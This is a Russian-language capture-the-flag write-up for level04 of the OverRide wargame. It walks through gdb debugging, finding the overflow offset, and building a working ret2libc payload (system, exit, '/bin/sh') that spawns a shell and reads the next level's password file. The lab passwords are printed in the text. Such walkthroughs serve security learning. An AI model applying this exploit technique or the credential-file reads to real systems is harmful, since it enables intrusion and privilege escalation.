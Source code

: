 [back](../defense.md)

```
cd /home/users/level04
ls -la
cat .pass
	kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf
Ctrl+C
su level04
Password: kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04

level04@OverRide:~$ gdb level04
(gdb) r
	Give me some shellcode, k
```

Прога хочет пароль. 

Пытаемся переполнить буфер. 

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
	child is exiting...
	[Inferior 1 (process 2517) exited normally]
```

100 знаечений мало. Берем 200 значений

```
level04@OverRide:~$ gdb level04
(gdb) r
	Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Прога задумалась. Видать там есть fork. Принудительно прерываем ее.

```
^Z
	Program received signal SIGTSTP, Stopped (user).
	0xf7fdb440 in __kernel_vsyscall ()
```

Программа остается в бесконечном цикле при segfault. Нам нужно сказать GDB, чтобы он следовал за дочерним процессом.

Ввводим команду

```
(gdb) set follow-fork-mode child
(gdb) r
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/users/level04/level04
	[New process 2118]
	Give me some shellcode, k
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
	Program received signal SIGSEGV, Segmentation fault.
	[Switching to process 2118]
	0x41326641 in ?? ()
	(gdb)
```

Нашли смещение равное 156.

Теперь нам надо найти адреса system(), exit() и "/bin/sh"

```
0xf7e6aed0  system нашелся сразу

(gdb) b exit
Breakpoint 1 at 0xf7e5eb70 вот и exit
```

ищем последний адрес:
```
(gdb) info proc map
process 2118
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fda000     0x2000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

составляем последовательность:

```
("A" * 156) + system + exit + "/bin/sh"
("A" * 156) + 0xf7e6aed0 + 0xf7e5eb70 + 0xf7f897ec
(python -c 'print "A"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"'; cat) | ./level01
level04@OverRide:~$ (python -c 'print "A"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

Уровень пройден.

[back](../defense.md)
